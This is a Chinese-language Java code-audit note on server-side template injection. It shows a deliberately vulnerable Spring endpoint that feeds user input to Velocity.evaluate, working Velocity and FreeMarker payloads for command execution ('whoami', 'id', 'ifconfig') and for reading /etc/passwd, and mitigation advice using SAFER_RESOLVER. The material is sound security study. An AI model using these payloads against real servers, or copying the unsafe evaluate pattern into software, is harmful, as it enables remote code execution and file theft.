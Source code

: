 # java代码审计-ssti
https://www.cnblogs.com/LittleHann/p/17846825.html#_lab2_0_3
## 0x01漏洞挖掘

### Velocity
```java
@RequestMapping("/ssti/velocity")
public String velocity(@RequestParam(name = "content") String content) {
    Velocity.init();
    VelocityContext velocityContext = new VelocityContext();

    velocityContext.put("username", "seaii");

    StringWriter stringWriter = new StringWriter();
    Velocity.evaluate(velocityContext, stringWriter, "test", content);
    return stringWriter.toString();
}
```

利用方式：

```
#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")
```

### FreeMarker

```java
@RequestMapping("/ssti/freemarker")
public String freemarker() throws IOException, TemplateException {
    Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
    configuration.setClassForTemplateLoading(this.getClass(), "/templates");
    Template template = configuration.getTemplate("test.ftl");

    Map<String, Object> rootMap = new HashMap<String, Object>();
    rootMap.put("username", "passwd");
    StringWriter stringWriter = new StringWriter();
    template.process(rootMap, stringWriter);
    return stringWriter.toString();
}
```

freemarker与velocity的攻击方式不太一样，freemarker可利用的点在于模版语法本身，直接渲染用户输入payload会被转码而失效，所以一般的利用场景为上传或者修改模版文件。

利用方式如下：

命令执行1：

```java
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

命令执行2：

```java
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line}
    ${"<br>"}
</#list>
```

文件读取：

```java
<#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
<#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        


<#list 1..10000 as t>
    <#assign line=br.readLine()!"null">
    <#if line=="null">
        <#break>
    </#if>
    ${line?html}
    ${"<br>"}
</#list>
```

将上面的payload写入到模版文件保存，然后让freemarker加载即可。

### thymeleaf

```java
templateEngine = new TemplateEngine();
templateEngine.setTemplateResolver(templateResolver);
```

## 0x02漏洞防御

### Velocity

velocity到目前最新版本也没有提供沙盒或者防御方式，只能禁止或严格过滤用户输入进入**Velocity.evaluate**。

### FreeMarker

最简单的方式是使用**TemplateClassResolver**，文档在这：

[https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html](https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html)

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191210230921.png)

可根据实际需求选择这两种方式，代码实现如下：

```java
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

但这并不是一劳永逸的防御方式，如果配置不当，依然会造成安全问题：

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)

## 0x03参考链接

[服务端模板注入：现代WEB远程代码执行（补充翻译和扩展）](https://wooyun.js.org/drops/%E6%9C%8D%E5%8A%A1%E7%AB%AF%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%8E%B0%E4%BB%A3WEB%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%EF%BC%88%E8%A1%A5%E5%85%85%E7%BF%BB%E8%AF%91%E5%92%8C%E6%89%A9%E5%B1%95%EF%BC%89.html)

[https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)

[Freemarker模板注入 Bypass](https://xz.aliyun.com/t/4846)
